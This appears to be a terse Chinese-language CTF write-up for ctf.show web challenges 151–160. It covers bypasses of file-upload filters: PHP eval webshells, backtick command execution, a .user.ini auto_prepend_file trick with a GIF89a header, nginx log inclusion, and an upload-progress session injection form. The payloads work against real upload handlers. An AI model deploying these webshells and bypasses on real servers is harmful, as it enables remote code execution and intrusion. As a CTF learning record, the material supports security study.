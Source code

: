 
---
web151

```
	js绕过
```
web152

```
	MIME类型绕过
```

web153
```
	同级目录有php文件 。.user.ini绕过
```

web154-155
内容过滤php

内容php大小写绕过
```
或者<?=eval($_POST[a])?>
```

web156
```
过滤php 和 []

{} 代替 []
```

web157-158
基本上把马锁死，但是还是可以任意执行php代码
```
<? system('tac fla*') ?>
```

web159

```
过滤 () [] {} ; php
```

```
反引号执行命令
<?=`tac fla*`?>
```

web160

```
过滤 () [] {} ; php `` 空格 log
对文件头部进行检测
```

```
.user.ini

GIF89a
auto_prepend_file =getshell.png

getshell.png

GIF89a
<?=include"/var/lo"."g/nginx/access.lo"."g"?>

用"."分隔log
```

```html
  
<!DOCTYPE html>
<html>
<body>
<form action="http://78c48379-27b6-4a04-ac10-07c787b030d4.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php system('tac ../f*')?>");?>" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form1
</body>
</html>
```